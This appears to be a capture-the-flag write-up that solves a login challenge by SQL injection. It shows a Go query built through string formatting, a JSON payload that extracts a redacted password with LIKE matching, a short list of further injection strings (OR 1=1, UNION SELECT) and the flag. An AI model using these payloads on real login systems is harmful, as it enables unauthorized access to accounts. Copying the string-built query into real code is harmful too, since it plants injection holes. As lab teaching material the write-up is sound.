

# What's My Password

### Solution

From the given zip file, we get a SQL file contains some information about the database. There is a ```users``` table with two columns, ```username``` and ```password```. There are 3 users defined but ```skat```'s password is redacted.

```sql
CREATE DATABASE uwu;
use uwu;

CREATE TABLE IF NOT EXISTS users ( username text, password text );
INSERT INTO users ( username, password ) VALUES ( "root", "IamAvEryC0olRootUsr");
INSERT INTO users ( username, password ) VALUES ( "skat", "fakeflg{fake_flag}");
INSERT INTO users ( username, password ) VALUES ( "coded", "ilovegolang42");

CREATE USER 'readonly_user'@'%' IDENTIFIED BY 'password';
GRANT SELECT ON uwu.users TO 'readonly_user'@'%';
FLUSH PRIVILEGES;
```
We also get Go file named ```main``` that contains ```SELECT``` statement for the response.
```go
qstring := fmt.Sprintf("SELECT * FROM users WHERE username = \"%s\" AND password = \"%s\"", input.Username, input.Password)
```
Since there is no parameter verification for password, we can assume that password field is vulnerable to SQLi. We can use this payload to get the password. 


```json
{
"username":"skat","password":"'\" OR (username = \"skat\" AND password LIKE \"irisctf%\") OR \"'"
}
```

If the JSON payload is substituted into the SQL statement, it will looks like this

```sql
SELECT * FROM users WHERE username = "skat" AND password = "'" OR (username = "skat" AND password LIKE "irisctf%") OR "'"
```



You can also use these payload
```
"\" or \"1\"=\"1"
\" or 1=1 -- -
\" or 1=1 limit 1 offset 1 -- -
\" union select * from users where username = \"skat\" -- -
```
### Flag 
The flag for this challenge is ```irisctf{my_p422W0RD_1S_SQl1}```
